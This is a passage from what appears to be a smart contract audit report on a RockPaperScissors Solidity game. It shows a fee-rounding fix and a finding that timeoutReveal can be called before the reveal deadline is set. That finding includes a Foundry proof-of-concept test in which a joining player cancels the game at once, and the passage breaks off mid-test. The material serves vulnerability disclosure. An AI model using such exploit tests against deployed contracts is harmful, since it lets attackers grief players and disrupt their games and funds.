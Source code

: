 ## Tools Used

* Manual Calculation Review

## Recommendations
```Solidity
- uint256 fee = (totalPot * PROTOCOL_FEE_PERCENT) / 100;
- uint256 refundPerPlayer = (totalPot - fee) / 2;
// Fix: Precise percentage math
+ uint256 refundPerPlayer = (totalPot * (100 - PROTOCOL_FEE_PERCENT)) / 200;
```

or use Fixed-Point Arithmetic such as `mulDiv`

## <a id='L-03'></a>L-03. we can cancel the game even before the revealDeadline

_Submitted by [lucky2892000](https://profiles.cyfrin.io/u/lucky2892000). Selected submission by: [lucky2892000](https://profiles.cyfrin.io/u/lucky2892000)._      
            


## \[H-1] summary

we can cancel the game even before the revealDeadline

## vulnerability details

playerA creates the game and sent the gameId to playerB to participate. As there is flaw in this `RockPaperScissors::timeoutReveal` playerB can be able to cancel the game even before the deadline time and playerA who created the game itself cant participate in the game

-> if anyone know that the new games are created , they can able to participate and can be able to cancel the game instantly and thus by not playing the player who has created the game itself

Issue is in the below condition in `RockPaperScissors::timeoutReveal`

```solidity
       require(block.timestamp > game.revealDeadline, "Reveal phase not timed out yet");
```

if we can see that this `game.revealDeadline` will once be updated once both the player has been commited their moves , by default of this value is zero which make block.timestamp > game.revealDeadline condition to true

## POC

```solidity
    function testTimeoutRevealAttack() public {
        uint256 totalTurns = 3;
        uint256 timeoutInterval = 10 minutes;
        bytes32 _salt = bytes32(keccak256("salt"));
        RockPaperScissors.Move move = RockPaperScissors.Move.Paper;

        vm.prank(playerA);
        uint256 gameNum = game.createGameWithEth{value: 1 ether}(totalTurns, timeoutInterval);

        vm.startPrank(playerB);
        game.joinGameWithEth{value: 1 ether}(gameNum);
        bytes32 commit = keccak256(abi.encodePacked(move, _salt));
        game.commitMove(gameNum, commit);
        game.timeoutReveal(gameNum);
        vm.stopPrank();
        // here playerA can't commit his move
        vm.prank(playerA);
        game.commitMove(gameNum, commit);
```